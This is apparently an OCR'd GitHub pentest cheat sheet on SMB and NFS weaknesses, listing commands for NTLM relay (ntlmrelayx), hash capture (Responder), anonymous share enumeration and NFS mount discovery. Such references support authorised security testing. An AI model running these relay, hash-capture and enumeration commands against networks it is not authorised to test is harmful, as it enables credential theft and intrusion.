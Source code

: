 #### Response Action

If SMB signing is disabled:

- **Check for Relay Attack Potential:**
  ```bash
  ntlmrelayx.py -t <target-ip>
  ```

- **Use Responder for Capturing Hashes:**
  ```bash
  responder -I eth0 -rdwF
  ```

- **Validate Share Permissions:**
  ```bash
  smbmap -H <target-ip>
  ```

- **Log Findings for Report Generation:**
  Ensure all shares and permissions are documented for client review.

### Anonymous Shares

```bash
# Check if there are any accessible shares anonymously.
smbclient \\test.local\public -I 10.10.10.1 -N

# Use Metasploit to enumerate anonymous shares:
msfconsole
use auxiliary/scanner/smb/smb_enumshares
set RHOSTS 10.10.10.1
run

# Use enum4linux-ng for detailed share enumeration:
enum4linux-ng -A 10.10.10.1
```

### Mounts

```bash
# Check if mounts are available and mount them if possible.
showmount -e <ip>

# Mount in Kali's Thunar file manager:
smb://ip/share

# Use Metasploit to identify and exploit writable mounts:
msfconsole
use auxiliary/scanner/nfs/nfsmount
set RHOSTS <ip>
run

# Mount NFS shares using Nmap:
nmap -p 2049 --script=nfs-ls,nfs-statfs <ip>
```
